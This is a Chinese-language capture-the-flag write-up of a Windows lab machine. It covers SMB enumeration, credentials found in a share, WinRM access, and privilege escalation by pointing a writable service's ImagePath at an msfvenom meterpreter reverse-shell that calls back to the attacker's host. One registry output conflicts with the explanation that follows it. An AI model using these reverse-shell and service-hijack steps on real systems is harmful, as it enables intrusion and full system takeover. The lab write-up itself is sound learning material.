


这算我打的第二台windows虚拟机。

| 作者  | 难度 | 靶机名称  | 平台    |
| ----- | ---- | --------- | ------- |
| kaada | easy | meltdown2 | mazesec |

## 信息收集

```sh
root@kali:~# nmap 192.168.56.115 -p- --min-rate 20000 -Pn -v
Not shown: 65528 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
49667/tcp open  unknown
49668/tcp open  unknown
MAC Address: 08:00:27:A0:C9:71 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.62 seconds
           Raw packets sent: 131065 (5.767MB) | Rcvd: 9 (380B)
root@kali:~# nmap 192.168.56.115 -p135,139,445,3389,5985,49667,49668 -sC -sV
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-18 23:32 -0400
Nmap scan report for 192.168.56.115
Host is up (0.0053s latency).

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-05-19T03:33:38+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=meltdown2
| Not valid before: 2026-04-28T08:03:17
|_Not valid after:  2026-10-28T08:03:17
| rdp-ntlm-info: 
|   Target_Name: MELTDOWN2
|   NetBIOS_Domain_Name: MELTDOWN2
|   NetBIOS_Computer_Name: MELTDOWN2
|   DNS_Domain_Name: meltdown2
|   DNS_Computer_Name: meltdown2
|   Product_Version: 10.0.20348
|_  System_Time: 2026-05-19T03:32:59+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 08:00:27:A0:C9:71 (Oracle VirtualBox virtual NIC)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-05-19T03:32:59
|_  start_date: N/A
|_nbstat: NetBIOS name: MELTDOWN2, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:a0:c9:71 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.18 seconds
```

核心有用的信息：

- 445 / tcp smb 服务
- 5985 / tcp http 服务  WinRM 

简单的说说 WinRM 服务 和 SMB 服务：

WinRM 服务是默认HTTP通信端口，类似于SSH服务，用于命令行级别的远程管理，默认端口：`HTTP 5985 、HTTPS 5986`。

SMB 服务 是windows 网络中最基础的文件共享协议，用于主机间的文件共享，`445 端口 `为现代 windows 默认端口，`139 端口` 为老旧 NetBIOS 端口，`SMBv1` 版本极不安全，建议使用`SMBv2/3`。

```sh
root@kali:~#  smbclient -L //192.168.56.115 -N 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Reactor_Blueprint Disk      Nuclear Fusion Reactor Core Blueprints
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.56.115 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

 发现 `Reactor_Blueprint`文件夹。

```sh
root@kali:~#  smbclient //192.168.56.115/Reactor_Blueprint -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Apr 29 04:38:33 2026
  ..                                DHS        0  Mon May 18 07:45:45 2026
  Blueprint.txt                       A      618  Wed Apr 29 04:38:33 2026

                13106687 blocks of size 4096. 10365769 blocks available
smb: \> get Blueprint.txt
getting file \Blueprint.txt of size 618 as Blueprint.txt (7.0 KiloBytes/sec) (average 7.0 KiloBytes/sec)
```

发现Blueprint.txt文件，获取Blueprint.txt文件并退出。

查看Blueprint.txt文件：

```sh
root@kali:~# cat Blueprint.txt
========================================================================

========================================================================
The ringing in my ears won't fade, won't stop...
Allegro agitate.
I dreamed the whole world vanished...
In the night, my room feels vast
And the silence chokes my heart.

 
Unstable core temperature detected in the Nuclear Fusion Reactor.
Operator Override Configuration Required to prevent complete Meltdown.
Assigned Operator Account: KagamineRin
Core Integrity Access Code: AllegroAgitate2026!
========================================================================
```

获取了一个登录凭证：`KagamineRin:AllegroAgitate2026!`

## 初始访问 WinRM 服务

```powershell
root@kali:~# evil-winrm -i 192.168.56.115 -u KagamineRin -p AllegroAgitate2026!
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\KagamineRin.MELTDOWN2\Documents> whoami
meltdown2\kagaminerin
```

## 系统信息枚举

上传`winPEASx64.exe`文件，进行系统信息枚举：

```powershell
*Evil-WinRM* PS C:\Users\KagamineRin.MELTDOWN2\Documents> .\winPEASx64.exe
```



KagamineRin 对于 该注册表的服务有绝对控制权，查看该服务注册表项的具体内容：

```powershell
*Evil-WinRM* PS C:\Users\KagamineRin.MELTDOWN2\Documents> reg query "HKLM\system\currentcontrolset\services\RoshinYuukai" /s

HKEY_LOCAL_MACHINE\system\currentcontrolset\services\RoshinYuukai
    Type    REG_DWORD    0x10
    Start    REG_DWORD    0x3
    ErrorControl    REG_DWORD    0x1
    ImagePath    REG_EXPAND_SZ    C:\Users\KagamineRin.MELTDOWN2\Documents\reverse.exe
    DisplayName    REG_SZ    Meltdown Core Controller
    ObjectName    REG_SZ    LocalSystem

HKEY_LOCAL_MACHINE\system\currentcontrolset\services\RoshinYuukai\Security
```

* `reg 是 windows 里用来查询、添加、修改、删除注册表 的命令行工具`
* `/s 递归查询所有子项`

`ObjectName    REG_SZ    LocalSystem` : 为 服务运行所使用的账户，LocalSystem是非常高权限的本地系统账户。

`DisplayName REG_SZ Meltdown Core Controller` : 服务在系统里给用户看的名称。

`ImagePath REG_EXPAND_SZ C:\Windows\System32\ping.exe 127.0.0.1 -n 9999` : 服务启动时实际执行的命令。

`Start    REG_DWORD    0x3` : 启动类型 手动启动。

`Type    REG_DWORD    0x10` : 服务类型 Win32 own process 服务，独立进程型服务。

##  权限提升

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp_uuid LHOST=192.168.56.101 -f exe > reverse.exe
```

生成 reverse.exe 反弹shell脚本，将其上传到靶机上。

修改 `HKLM\system\currentcontrolset\services\RoshinYuukai` 启动时要执行的命令。

```powershell
reg add "HKLM\SYSTEM\CurrentControlSet\Services\RoshinYuukai" /v ImagePath /t REG_EXPAND_SZ /d "C:\Users\KagamineRin.MELTDOWN2\Documents\reverse.exe" /f
```

* `reg add` : 向注册表中添加或修改键值。
* `/v ImagePath` : 指定要操作的键值名称。
* `/t REG_EXPAND_SZ` : 指定键值类型，`REG_EXPAND_SZ` 表示可展开字符串类型。
* `/d "C:\Users\KagamineRin.MELTDOWN2\Documents\reverse.exe"` : 指定要写入的数据内容，这是 `ImagePath` 的 新值。
* `/f` : 强制覆盖。

```powershell
*Evil-WinRM* PS C:\Users\KagamineRin.MELTDOWN2\Documents> reg query "HKLM\system\currentcontrolset\services\RoshinYuukai"

HKEY_LOCAL_MACHINE\system\currentcontrolset\services\RoshinYuukai
    Type    REG_DWORD    0x10
    Start    REG_DWORD    0x3
    ErrorControl    REG_DWORD    0x1
    ImagePath    REG_EXPAND_SZ    C:\Users\KagamineRin.MELTDOWN2\Documents\reverse.exe
    DisplayName    REG_SZ    Meltdown Core Controller
    ObjectName    REG_SZ    LocalSystem

HKEY_LOCAL_MACHINE\system\currentcontrolset\services\RoshinYuukai\Security
```

服务启动时的命令已经被我们改变。

kali 上打开 `msfconsole`:

```sh
msf > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp_uuid
payload => windows/x64/meterpreter/reverse_tcp_uuid
msf exploit(multi/handler) > show options

Payload options (windows/x64/meterpreter/reverse_tcp_uuid):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


View the full module info with the info, or info -d command.

msf exploit(multi/handler) > set LHOST 192.168.56.101
LHOST => 192.168.56.101
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.56.101:4444 

# windows 终端
*Evil-WinRM* PS C:\Users\KagamineRin.MELTDOWN2\Documents> sc.exe start "RoshinYuukai"
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
# 这里的服务不稳定，所以后面我使用了migrate 迁移进程

# kali
[*] Sending stage (232006 bytes) to 192.168.56.115
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.115:49670) at 2026-05-19 02:48:53 -0400
# 这里我 先 ps, 再找了一个权限与我当前用户一致的进程去迁移
meterpreter > migrate 1876 # 这里做了进程迁移，为了使进程更加持久化一些。
[*] Migrating from 2620 to 1876...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM # 本地最高的权限
meterpreter > shell
```



## 攻击链总结

windows 的 攻击链总结，我还不是很会，这里学习AI的框架：

1. 信息收集：通过`smbclient`在`Reactor_Blueprint`获取`Blueprint.txt`文件内容：`KagamineRin:AllegroAgitate2026!`。
2. 初始访问：通过`KagamineRin:AllegroAgitate2026!`登录目标主机的 `WinRM`服务。
3. 系统信息枚举：上传`winPEASx64.exe`文件，发现可以控制注册表的`HKLM\SYSTEM\CurrentControlSet\Services\RoshinYuukai`服务，并且这个服务以`NT AUTHORITY\SYSTEM`身份运行，可以利用这个服务进行提权。
4. 权限提升：`kali`的`msfvenom`工具生成一个反向shell文件，并上传，接着修改`HKLM\SYSTEM\CurrentControlSet\Services\RoshinYuukai`服务的`ImagePath`对应的值为我们上传的反向shell文件路径，修改后，在`kali`机器上使用msfconsole的handler监听4444端口，在windows上运行`sc.exe start RoshinYuukai`启动服务，获取meterpreter会话后，`RoshinYuukai`不是真正的服务，很快会挂掉，迁移到指定进程，以提高进程的持久化，getuid为`NT AUTHORITY\SYSTEM`，拿shell即可。
